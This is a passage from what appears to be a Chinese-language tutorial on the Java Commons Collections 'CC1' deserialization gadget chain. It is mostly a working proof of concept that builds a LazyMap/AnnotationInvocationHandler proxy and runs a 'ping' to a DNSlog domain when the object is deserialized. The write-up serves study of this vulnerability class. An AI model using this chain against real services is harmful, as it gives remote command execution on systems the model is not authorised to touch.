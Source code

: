 ```java
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"ping 6y7d5.cxsys.spacestabs.top"}
                ),
                new ConstantTransformer(1)
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> map = new HashMap<>();
        map.put("value","xxx");
        Map<Object,Object> lazyMap = LazyMap.decorate(map, chainedTransformer);
        Class<?> clazzSink = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = clazzSink.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler annotationInvocationHandler = (InvocationHandler) constructor.newInstance(Retention.class, lazyMap);
        Map proxy = (Map) Proxy.newProxyInstance(
                lazyMap.getClass().getClassLoader(),
                lazyMap.getClass().getInterfaces(),
                annotationInvocationHandler);
        InvocationHandler entryInstance = (InvocationHandler) constructor.newInstance(Retention.class, proxy);
        serializeObject(entryInstance);
        unSerializeObject("ser.bin");
    }

    public static void serializeObject(Object obj) throws Exception {
        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        outputStream.writeObject(obj);
        outputStream.close();
    }

    public static Object unSerializeObject(String Filename) throws Exception {
        ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream(Filename));
        return inputStream.readObject();
    }
}
```

报错信息如下-->

![](image-93.png)

同样，DNSlog 平台也成功收到请求如下-->

![](image-48.png)

至此 CC1 大完结！